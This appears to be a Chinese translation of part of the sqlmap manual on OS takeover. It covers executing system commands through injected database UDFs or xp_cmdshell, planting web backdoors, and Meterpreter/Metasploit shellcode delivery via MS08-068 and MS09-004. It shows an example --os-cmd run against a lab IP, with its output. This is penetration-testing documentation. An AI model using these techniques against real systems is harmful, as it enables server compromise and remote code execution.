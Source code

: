 当数据库为MySQL，PostgreSQL或Microsoft SQL Server，并且当前用户有权限使用特定的函数。

在MySQL、PostgreSQL，sqlmap上传一个二进制库，包含用户自定义的函数，sys_exec()和sys_eval()。

那么他创建的这两个函数可以执行系统命令。在Microsoft SQL Server，sqlmap将会使用xp_cmdshell存储过程，如果被禁（在Microsoft SQL Server 2005及以上版本默认禁制），sqlmap会重新启用它，如果不存在，会自动创建。

列举一个PostgreSQL的例子：

$ python sqlmap.py -u "http://192.168.136.131/sqlmap/pgsql/get_int.php?id=1" \
--os-cmd id -v 1

[...]
web application technology: PHP 5.2.6, Apache 2.2.9
back-end DBMS: PostgreSQL
[hh:mm:12] [INFO] fingerprinting the back-end DBMS operating system
[hh:mm:12] [INFO] the back-end DBMS operating system is Linux
[hh:mm:12] [INFO] testing if current user is DBA
[hh:mm:12] [INFO] detecting back-end DBMS version from its banner
[hh:mm:12] [INFO] checking if UDF 'sys_eval' already exist
[hh:mm:12] [INFO] checking if UDF 'sys_exec' already exist
[hh:mm:12] [INFO] creating UDF 'sys_eval' from the binary UDF file
[hh:mm:12] [INFO] creating UDF 'sys_exec' from the binary UDF file
do you want to retrieve the command standard output? [Y/n/a] y
command standard output:    'uid=104(postgres) gid=106(postgres) groups=106(postgres)'

[hh:mm:19] [INFO] cleaning up the database management system
do you want to remove UDF 'sys_eval'? [Y/n] y
do you want to remove UDF 'sys_exec'? [Y/n] y
[hh:mm:23] [INFO] database management system cleanup finished
[hh:mm:23] [WARNING] remember that UDF shared object files saved on the file system can 
only be deleted manually

用--os-shell参数也可以模拟一个真实的shell，可以输入你想执行的命令。

当不能执行多语句的时候（比如php或者asp的后端数据库为MySQL时），仍然可能使用INTO OUTFILE写进可写目录，来创建一个web后门。支持的语言：

1、ASP
2、ASP.NET
3、JSP
4、PHP

Meterpreter配合使用

参数：--os-pwn,--os-smbrelay,--os-bof,--priv-esc,--msf-path,--tmp-path

当数据库为MySQL，PostgreSQL或Microsoft SQL Server，并且当前用户有权限使用特定的函数，可以在数据库与攻击者直接建立TCP连接，这个连接可以是一个交互式命令行的Meterpreter会话，sqlmap根据Metasploit生成shellcode，并有四种方式执行它：

1、通过用户自定义的sys_bineval()函数在内存中执行Metasplit的shellcode，支持MySQL和PostgreSQL数据库，参数：--os-pwn。
2、通过用户自定义的函数上传一个独立的payload执行，MySQL和PostgreSQL的sys_exec()函数，Microsoft SQL Server的xp_cmdshell()函数，参数：--os-pwn。
3、通过SMB攻击(MS08-068)来执行Metasploit的shellcode，当sqlmap获取到的权限足够高的时候（Linux/Unix的uid=0，Windows是Administrator），--os-smbrelay。
4、通过溢出Microsoft SQL Server 2000和2005的sp_replwritetovarbin存储过程(MS09-004)，在内存中执行Metasploit的payload，参数：--os-bof
